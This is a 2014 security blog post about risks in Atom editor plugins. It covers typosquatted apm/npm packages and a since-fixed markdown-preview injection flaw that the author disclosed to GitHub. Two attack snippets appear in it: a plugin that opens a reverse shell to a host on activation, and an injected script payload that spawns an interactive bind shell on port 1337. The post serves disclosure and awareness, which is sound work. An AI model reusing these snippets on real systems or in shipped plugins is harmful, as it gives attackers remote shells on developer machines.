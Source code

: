 ```yaml
---
date: 2014-03-02 00:04:34 GMT
slug: of-atom.io-and-security
tags: security, atom.io, nodesecurity, node.js, apm, npm
title: of atom.io and security
type: text
---
```


Like many of you, I recently received an invite to atom.io, GitHub's new text editor.

Atom embraces everything that I love about node.js: easy creation, hackability, distribution, and installation of small modules. 

It also brings with it some of the same types of security concerns.

Shortly after downloading and playing with the app I posted this in [andbang](http://andbang.com) (our team collaboration tool):

"my first atom.io plugin, am I doing it right?"
```
var shells = require('node-shells');
module.exports.activate = function () {
    shells.reverseShell('canary.local', '1234');
}
```

Shortly after, my coworker Stephanie said to me: "You just can't help but hack all the things, can you?" 

No. No, I can't.

That's a simple plugin that when you install it it makes a connection back to my computer. 
Now, no sane developer would install that knowing what it does, but be honest: an attacker is not going to be that obvious and no matter how big our egos are, we all know we make stupid mistakes.

## Every strength comes with a weakness
Atom is designed for hackabililty, to run plugins and code written by you and the greater development community.

My concerns are the unintended side effects of having plain text and code executing in an environment that's a central tool for our day-to-day workflow.

Securing common developer endpoints is hard enough on its own. 

Now we have to verify the security of each module installed in our developers' text editor for seemingly benign things like syntax highlighting, coding efficiency or collaboration, or any number of awesome inventions the dev community dreams up.

## apm brings with it security concerns from npm
I did some research a while back on npm typos: packages a developer attempted to install, but couldn't because they got the name wrong.

Turns out we are measurably bad at punctuation when remembering package / module names.

The modules most commonly typed wrong were the ones with punctuation in them: "socketio" vs. "socket.io", "coffeescript" vs. "coffee-script", and so on.

This is going to happen with apm.

Malicious plugins will be created, they'll squat on commonly typo'd names, and it will be a problem.
It will be a pain in the ass to police as well. The same problem exists within npm, where we rely on the community to police it at the moment. 

It took the community a week to ask me to take down my fake "coffeescript" module that was blank. Had it replicated the functionality of a working module, I imagine it would still be up there today.

## This isn't your grandmothers DOM.
The next issue I see is that getting content injection within the atom.io editor means code execution with all the awesome power of node.js.

According to their [security page](https://github.com/rogerwang/node-webkit/wiki/Security), node-webkit has 2 frame types: Node frames and normal frames. It's the Node frame that gives us the extended power of node.

I was able to exploit this just hours after the release using the built-in markdown preview plugin (the one that's mentioned in the welcome text).

A month ago I published an [advisory for marked](https://nodesecurity.io/advisories/marked_multiple_content_injection_vulnerabilities), a popular module for parsing markdown. 

Turns out the markdown-preview plugin was using the rooster module that included a vulnerable version of marked. 

Small modules are nice, but everyone in the chain has to do their part to make sure things are secure and up to date.

I disclosed this vulnerability to GitHub and, as of atom 0.62.0, the included markdown-preview plugin appears to be fixed.

Here was the exploit for a quick bindshell:

```<script>net=require('net');cp=require('child_process');server=net.createServer(function(c){sh=cp.spawn('sh',['-i']);c.pipe(sh.stdin);sh.stdout.pipe(c);});server.listen(1337);</script>
    this is a test
```

I want to make it very clear that I love the editor and am in no way casting it aside just because of a few security concerns. (I don't tend to think of security as something that should hold back developers from building amazing and useful things, but rather, an essential component of that creativity.)

However, it does make me pause and think about the mounting concerns with securing developer endpoints that I'm not sure the answers are keeping up with.

## This is what the Node Security Project is about

atom.io reinvigorates our team's belief in why we started the Node Security Project.

Our only chance to rise above the bad guys is to approach leveling up the security of the entire community in a highly distributed way. It's the only way we'll be able to handle security in this new era of massive modularity and code reuse.

We have some big plans for Node Security Project for 2014 and we'd love to have your help as we begin to roll those out in the coming months.

Give us a follow on twitter for project updates. [@nodesecurity](https://twitter.com/nodesecurity)

